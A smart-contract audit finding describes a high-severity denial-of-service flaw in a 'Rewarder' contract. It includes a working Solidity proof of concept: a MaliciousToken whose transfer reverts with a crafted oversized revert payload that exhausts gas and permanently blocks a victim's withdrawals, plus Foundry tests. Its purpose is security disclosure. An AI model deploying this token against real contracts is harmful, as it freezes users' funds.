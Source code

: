 ## About the contrat rewarder

### Purpose:

This contract manages a reward system where users can give rewards as tokens to other users by calling giveReward(address _user , IERC20 _token , uint _amount ) with ,specifying the user's address, token address, and reward amount

Users can withdraw their accumulated rewards by calling withdrawRewards() .

## Finding


### [H-1] A Denial of Service (DoS) attack in the Rewarder::giveReward function enables malicious actors to reward malicious tokens to users, thereby impeding their ability to retrieve all of their other rewards. 

**Description:** 

A malicious user can reward a normal user with a malicious token using the `Rewarder::giveReward` function. This token subsequently causes a revert in the `Rewarder::withdrawReward` function for the affected user, thereby preventing them from claiming their rewards.

When a user calls `Rewarder::withdrawReward` , for each reward/token he has , this code snippet runs :

``` java
try token.transfer(msg.sender , amount) {
                delete rewards[msg.sender][i];
            } catch (bytes memory reoson ) {
                string memory revertReoson = getRevertMessage(reoson);
                emit RewardTransferFailed(revertReoson);
            }
```
The hacker can manage to create a token where they override the transfer method in a way it results in a revert/error. They then manipulate the error message from token.transfer in such a way that it triggers an Out of Gas scenario. Specifically, they construct a series of bytes (reason) that, when passed to `rewarder::getRevertMessage`, exhausts the gas when attempting to decode the bytes into a string: `getRevertMessage(reason)`. This action effectively halts the entire transaction, preventing any tokens from being withdrawn.

**Impact:**
A user will never be able to withdraw the tokens he owns ; the tokens will remain stuck in the contract indefinitely.

**Proof of Concept:**
Firstly, let's generate a token that, when rewarded to a user, will hinder them from withdrawing any remaining rewards. These tokens will be permanently locked within the contract.

```java
contract MaliciousToken is ERC20 {
    constructor() ERC20 ("BAD" , "TOKEN") {
        _mint(msg.sender, 100);
    }

    function transfer(address to, uint256 value) public override  returns (bool)  {
        assembly {
            let free_memory := mload(0x40)
            mstore(free_memory , 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_memory , 4) , 0x20)
            mstore(add(free_memory , 36) , 0xfffffffffffffffffffffffffffffff )
            revert(free_memory , 100)
        }
    }

}
```

The transfer method leads to an unavoidable scenario where a revert occurs, with the revert message indicating from "free_memory" to 100. 

The first word, "free memory," stores the selector: bytes4(0x08c379a0).
 The second word is the head, with 0x20 pointing to the third word.

The third word marks the beginning of the string and should contain the string's size. 
By inputting a large number in that position, the EVM will endlessly attempt to decode the fake-large string provided. In reality, it will only parse empty words in memory. But that would be enough to invoke oog.

Let's execute this in Foundry.

To start, let's deploy 10 valid tokens and transfer them to the contract (address(this)). Subsequently, we'll initiate a withdrawal process to retrieve these tokens.

```java
contract GoodToken is ERC20 {
    constructor() ERC20("GOOD" , "TOKEN") {
        _mint(msg.sender, 100);
    }
}
contract testRewarder is Test {
    Rewarder rewarder;
    function setUp() public {
        rewarder = new Rewarder();
    }

    function testReward() public {
        //create a list of tokens
        IERC20[] memory tokens = new IERC20[](10);
        for (uint i=0 ; i<10 ; i++){
            //deploy the token and store its address in the array
            tokens[i] = new GoodToken();
            //we have to approve the rewarder to spend the tokens 
            tokens[i].approve(address(rewarder), 100);
            rewarder.giveReward(address(this), tokens[i] , 100);
        }

        //by the end of this loop , address(this) should have 10 tokens (stored in the array tokens) with a balance of 100 each.
        // Let's create a loop in which we verify this 

        for (uint i=0 ; i<10 ; i++){
            (IERC20 token , uint amount) = rewarder.rewards(address(this) , i);
            assert(token == tokens[i]);
            assert(amount == 100);
        }
    }

    function testWithrawOnlyGoodTokens() public {
        testReward();
        rewarder.withdrawRewards();
        (IERC20 token , uint amount) = rewarder.rewards(address(this) , 0);
        //let's check that all tokens are withrawn 
        assertEq(address(token) ,  address(0));
        assertEq(amount, 0);
    }



```
In a foundry project , Open the terminal and run 
```bash
forge test --match-test testReward -vv
forge test --match-test testWithrawOnlyGoodTokens -vv
```

Both commands will return that the functions have been successfully executed.

Now, let's attempt to reward the contract with 10 valid tokens along with 1 malicious token, and then test whether the function will fail or not:

```java
    function testWithdrawMalicious() public {
        testReward();
        IERC20 maliciousToken = new MaliciousToken();
        maliciousToken.approve(address(rewarder), 1);
        rewarder.giveReward(address(this), maliciousToken , 1);

        vm.expectRevert();
        rewarder.withdrawRewards();
    }
```
Open the terminal and run :

```bash
forge test --match-test testWithdrawMalicious -vv
```
"And the test should pass once more, indicating that a revert occurred."
Below is the test script, please note that it will only function within a Foundry project environment :

```java
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import {Rewarder} from "../src/Rewarder.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20 ("BAD" , "TOKEN") {
        _mint(msg.sender, 100);
    }

    function transfer(address to, uint256 value) public override  returns (bool)  {
        assembly {
            let free_memory := mload(0x40)
            mstore(free_memory , 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_memory , 4) , 0x20)
            mstore(add(free_memory , 36) , 0xfffffffffffffffffffffffffffffff )
            revert(free_memory , 100)
        }
    }

}

contract GoodToken is ERC20 {
    constructor() ERC20("GOOD" , "TOKEN") {
        _mint(msg.sender, 100);
    }
}


contract testRewarder is Test {
    Rewarder rewarder;
    function setUp() public {
        rewarder = new Rewarder();
    }

    function testReward() public {
        IERC20[] memory tokens = new IERC20[](10);
        for (uint i=0 ; i<10 ; i++){
            tokens[i] = new GoodToken();
            tokens[i].approve(address(rewarder), 2);
            rewarder.giveReward(address(this), tokens[i] , 2);
        }

        for (uint i=0 ; i<10 ; i++){
            (IERC20 token , uint amount) = rewarder.rewards(address(this) , i);
            assert(token == tokens[i]);
            assert(amount == 2);
        }
    }

    function testWithrawOnlyGoodTokens() public {
        testReward();
        rewarder.withdrawRewards();
        (IERC20 token , uint amount) = rewarder.rewards(address(this) , 0);
        assertEq(address(token) ,  address(0));
        assertEq(amount, 0);
    }

    function testWithdrawMalicious() public {
        testReward();
        IERC20 maliciousToken = new MaliciousToken();
        maliciousToken.approve(address(rewarder), 1);
        rewarder.giveReward(address(this), maliciousToken , 1);

        vm.expectRevert();
        rewarder.withdrawRewards();
    }
}

```
